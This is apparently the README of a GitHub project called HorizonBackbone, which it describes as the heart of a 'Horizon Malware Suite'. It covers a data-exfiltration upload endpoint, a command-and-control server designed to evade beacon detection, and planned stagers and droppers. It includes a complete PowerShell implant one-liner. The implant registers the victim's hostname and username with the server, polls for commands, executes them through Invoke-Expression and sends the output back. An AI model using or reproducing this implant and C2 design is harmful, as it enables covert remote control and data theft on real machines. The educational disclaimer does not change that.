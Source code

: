 ```
██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ██╗███████╗
██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝
███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║██████╔╝███████║██║     █████╔╝ ██████╔╝██║   ██║██╔██╗ ██║█████╗  
██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══██╗██║   ██║██║╚██╗██║██╔══╝  
██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║██████╔╝██║  ██║╚██████╗██║  ██╗██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
```

-----------------------------------------------------------------------------------

**THIS PROJECT IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE IT FOR ILLEGAL PURPOSES!**

***Go to the [development-microservices](https://github.com/maxbirnbacher/HorizonBackbone/tree/development-microservices) branch for a preview of the microservices version (currently in development and not ready for production).***

The heart of the Horizon Malware Suite and used for all kinds of things.

## Roadmap

- [X] List files
- [x] Simple web-interface
- [x] File download
- [ ] Delete file(s)
- [X] Make a better UI for the web-interface
- [X] C2 Server and API
- [X] Frontend for C2 Server
- [ ] Rewrite API and frontend as microservices
- [ ] API & frontend authentication
- [ ] Dynamic creation of stagers/droppers
- [ ] Frontend-Dialog for stager/dropper creation
- [ ] File upload for droppers


## Why microservices?

I want to make the whole Horizon Malware Suite as modular as possible. This way you can use the parts you need and don't have to use the whole suite.
Another aspect is that I want to add scalability to the project. If you want to use the whole suite you can just spin up multiple instances of the microservices and use a load balancer to distribute the load.

It will also allow me to develop the different parts of the suite independently from each other. This way I can focus on one part at a time and don't have to worry about breaking other parts of the suite.

Microservices will bring a very big change to the project. For example the frontend will be a NodeJS application that will communicate with the API via REST. I previously used Jinja2 templates to render the frontend. This is why I also need to rewrite parts of the API.

## Setup & Start

Clone the repository and run `docker-compose build` to build the images.

Start the stack with `docker-compose up -d` and you are good to go.

## Usage

### Dashboard

After starting the stack you can access the Webinterface by accessing `http://SERVER_IP_OR_DOMAIN:8000` in your browser.

There you can (*currently*) choose between the Data Exfiltration and the C2 Server.

### Data Exfiltration

To exfiltrate data you can use the '/upload' endpoint.

You can see your uploaded files under `http://SERVER_IP_OR_DOMAIN:8000/list-files-view`.

![DataExfil](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/39b7923c-8328-4672-8dc7-5f75cc725565)

If you click on the filename you can access the file and download it.

![FileView](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/75e3ff57-d2e7-45da-8c4d-8f8beffb0653)

### C2 Server

The C2 Server is intended for long-term usage. Communication should take place over a long period of time that are non-linear to avoid beacon detection.

The workflow is as follows:

1. Register a new client. This will create a new client in the database and return a unique ID. This ID is used for all further communication with the client. (`http://SERVER_IP_OR_DOMAIN:8000/register`)
2. Queue new commands for the client via the web-interface in the detail view of each client.
3. The client will check for new command(s) after the specified interval and execute it/them. (`http://SERVER_IP_OR_DOMAIN:8000/commands/{connection_id}`)
4. The client will send the results of the command(s) to the server. (`http://SERVER_IP_OR_DOMAIN:8000/output/send/{connection_id}`)
5. The server will store the results in the database and make them available via the web-interface. Hit the refresh button in the detail view of the client to see the output.
6. Unregister the client if you don't need it anymore. (`http://SERVER_IP_OR_DOMAIN:8000/unregister/{connection_id}`) *interface currently in development*

#### Reverse Shell Example

Here is an example of a reverse shell using the C2 Server. Replace the IP address in the `$main_url` variable and in some other url variables with the IP address of your server.

```PowerShell
$ip_address=((ipconfig|Select-String "IPv4 Address").ToString() -split ": ")[-1];$os_type=(Get-WmiObject -Class Win32_OperatingSystem).Caption;$hostname=(Get-WmiObject -Class Win32_ComputerSystem).Name;$username=[Environment]::UserName;$main_url="http://10.0.0.9:8000";$interval=30;$intervalUnit="Seconds";$body=@{os_type=$os_type;ip_address=$ip_address;hostname=$hostname;username=$username;password="placeholder"}|ConvertTo-Json;Write-Host "IP Address: $ip_address";Write-Host "OS Type: $os_type";Write-Host "Hostname: $hostname";Write-Host "Username: $username";$url="http://10.0.0.9:8000/register?os_type=$os_type&ip_address=$ip_address&hostname=$hostname&username=$username&password=$password";$response=Invoke-RestMethod -Method Post -Uri $url;$connection_id=$response.id;Write-Host "Registered connection with ID: $connection_id";while($true){$url="$main_url/commands/$connection_id";$command=Invoke-RestMethod -Method Get -Uri $url;Write-Host "Received command: $command";if([string]::IsNullOrEmpty($command)){write-host "No command received yet...";$startSleepCmd="Start-Sleep -$intervalUnit $interval";$startSleepCmdStr=[String]$startSleepCmd;Invoke-Expression $startSleepCmdStr;continue;}if($command -eq "exit"){write-host "Exiting...";break;}write-host "Executing command: $command";if($command -ne "" -or $null -ne $command){$commandStr=[String]$command;$result=Invoke-Expression $commandStr;$output=$result|Out-String;$body=@{output=$output}|ConvertTo-Json;$url="$main_url/output/send/$connection_id";$body=@{output=$output}|ConvertTo-Json;Invoke-RestMethod -Method Post -Uri $url -Body $body;}}
```

### API

You can find all the API endpoints in the under `http://SERVER_IP_OR_DOMAIN:8000/docs`.





